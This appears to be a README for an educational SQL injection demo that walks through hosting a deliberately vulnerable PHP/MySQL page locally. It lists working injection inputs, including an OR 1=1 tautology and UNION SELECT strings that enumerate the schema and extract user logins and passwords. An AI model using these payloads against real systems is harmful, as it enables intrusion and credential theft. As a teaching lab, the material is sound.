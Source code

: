 ## SQL Injection Example Code

[![license](http://img.shields.io/badge/license-MIT-red.svg?style=flat)](https://raw.githubusercontent.com/fritz-c/sql-injection-demo/master/LICENSE)

### IMPORTANT: Do not place this code on a server that can be accessed by others.

To get things up and running:

* Create a database in MySQL, and edit these lines in `bad-inj-show.php` to match:
```php
$dsn = 'mysql:dbname=my_dbname;host=127.0.0.1';
$user = 'my_user';
$password = 'my_password';
```
* Insert the my_users table from the `db_dump.sql` file with a command like this:
```sh
$ mysql -u my_user -pmy_password my_db_name < db_dump.sql
```

* Host the code locally using something like [MAMP](http://www.mamp.info/en/) or [XAMPP](https://www.apachefriends.org/index.html).

* Navigate to the `bad-inj.php` page in your browser and play around with the form.

Here are some examples of some input to try:

```
ed@example.com

a" OR 1 = 1 -- 

a" UNION ALL SELECT TABLE_SCHEMA,TABLE_NAME from information_schema.TABLES; -- 

a" UNION ALL SELECT COLUMN_NAME,COLUMN_TYPE from information_schema.COLUMNS where TABLE_NAME = "my_users"; -- 

a" UNION ALL SELECT user_login,user_pass from my_users; -- 

a" UNION ALL SELECT user_email,user_pass from my_users; -- 
```

And I think it goes without saying, use this knowledge for learning how to protect yourself, and for the greater good ;)
